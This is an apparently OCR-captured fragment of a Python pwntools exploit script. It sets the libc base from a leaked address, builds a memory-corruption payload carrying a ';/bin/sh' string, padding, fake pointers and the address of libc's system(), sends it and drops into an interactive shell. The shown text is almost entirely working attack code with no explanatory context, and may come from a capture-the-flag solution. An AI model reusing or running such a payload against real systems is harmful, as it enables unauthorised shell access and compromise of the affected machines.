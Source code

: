 ```py
    libc.address = int (temp, 16)
    print ("The address of libc is: ", hex (libc.address))


    payload = p32 (0xFFFFDFFF) + b';/bin/sh\x00' + b'A' * 19 + p32 (name) + b'A' * 16 + b'\x00' + b'A' * 19 + p32 (filename + 20) + p32 (fp + 40) + p32 (libc.symbols['system'])
    exit_process (p, payload)

    p.interactive()


if __name__ == "__main__":
    main()
```